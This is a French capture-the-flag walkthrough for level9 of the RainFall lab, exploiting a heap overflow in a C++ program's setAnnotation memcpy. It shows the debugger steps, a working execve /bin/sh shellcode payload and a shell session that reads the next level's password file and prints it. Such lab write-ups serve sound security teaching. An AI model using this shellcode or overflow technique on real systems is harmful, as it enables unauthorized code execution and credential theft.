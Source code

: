 ## Démarches

- Avec `objdump -d --demangle level9` ou gdb et la commande `info functions`, on remarque qu'il s'agit d'un programme écrit en C++
  ```
    [...]
    0x080485f4  main
    [...]
    0x080486f6  N::N(int)
    0x080486f6  N::N(int)
    0x0804870e  N::setAnnotation(char*)
    0x0804873a  N::operator+(N&)
    0x0804874e  N::operator-(N&)
    [...]
  ```

- Le programme prend un argument. Avec peda et la fonction de pattern, on peut déduire la taille allouée pour cet argument :
  - `pattern create 200`
    > 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
  - `set args 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'`
  - `r`
  - `pattern search` (après le segfault)
    >     EAX+0 found at offset: 108

- La méthode `N::setAnnotation(char*)` fait appel à memcpy
  >  8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>

- On place un breakpoint à l'appel de la méthode `N::setAnnotation(char*)` :
  - `br *0x8048677`
  -  `set args $(python -c 'print("A"*108)')`
  - `r`
  - `info registers`
  - `x/20 0x804a008`
  - la chaine se remplit à partir de l'adresse`0x804a00c` (**`0x804a00c + 4 = 0x0804a010`**) 

- Avec un shellcode (cf level2), + padding (108 - (45 + 4))+ adresse du début de la copie

    ```
    level9@RainFall:~$ ./level9 $(python -c 'print("\x10\xa0\x04\x08"+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x90"*59+"\x0c\xa0\x04\x08")')
    $ whoami
    bonus0
    $ pwd
    /home/user/level9
    $ cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
    $ exit
    ```
<br>
----
## Ressources   

